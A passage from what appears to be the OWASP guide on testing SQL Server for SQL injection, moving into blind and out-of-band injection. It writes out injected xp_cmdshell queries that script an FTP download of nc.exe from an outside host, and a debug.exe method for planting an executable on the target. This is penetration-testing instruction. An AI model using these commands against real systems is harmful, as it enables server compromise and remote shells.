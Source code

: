 ```sql
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```

At this point, `nc.exe` will be uploaded and available.

If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, `debug.exe`, that is installed by default in all Windows machines. `Debug.exe` is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call `debug.exe` on it. There are several tools that create such debug files (e.g.: `makescr.exe` by Ollie Whitehouse and `dbgtool.exe` by `toolcrypt.org`). The queries to inject will therefore be the following:

```sql
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```

At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably `Bobcat`, which runs on Windows, and `Sqlninja`, which runs on Unix (See the tools at the bottom of this page).

### Obtain Information When It Is Not Displayed (Out of Band)

Not all is lost when the web application does not return any information --such as descriptive error messages (cf. [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection)). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested.

Other options for out of band attacks are described in [Sample 4 above](#Example-4:-Yet-Another-(Useful)-GET-Example).

### Blind SQL Injection Attacks

#### Trial and Error

Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), [use fuzz vectors](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors) against this channel and watch the response. For example, if the web application is looking for a book using a query
